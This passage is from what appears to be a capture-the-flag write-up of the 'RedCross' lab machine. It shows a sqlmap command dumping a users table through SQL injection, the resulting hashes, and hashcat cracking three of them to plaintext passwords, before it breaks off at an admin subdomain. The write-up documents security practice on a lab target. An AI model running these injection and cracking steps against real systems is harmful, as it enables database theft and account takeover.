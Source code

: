 Dumping list of users: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross -T users --dump`

```
Database: redcross
Table: users
[5 entries]
+----+------+------------------------------+----------+--------------------------------------------------------------+
| id | role | mail                         | username | password                                                     |
+----+------+------------------------------+----------+--------------------------------------------------------------+
| 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |
| 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
| 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
| 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
| 5  | 1000 | non@available                | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
+----+------+------------------------------+----------+--------------------------------------------------------------+
```

The password are stored with the bcrypt password hashing function, which is very slow to brute force. After letting hashcat (`hashcat -a 0 -m 3200`) run for some time I was able to recover the following hashes:

- guest / guest
- penelope / alexx
- charles / cookiemonster

None of them work to log in with SSH but we are able to see a few additional messages when logging in with the web messaging application.

> Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?

> Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!

That may be a hint there is another hidden page/sub-domain...

### Admin web page

There's another host `admin.redcross.htb` that displays a totally different application:
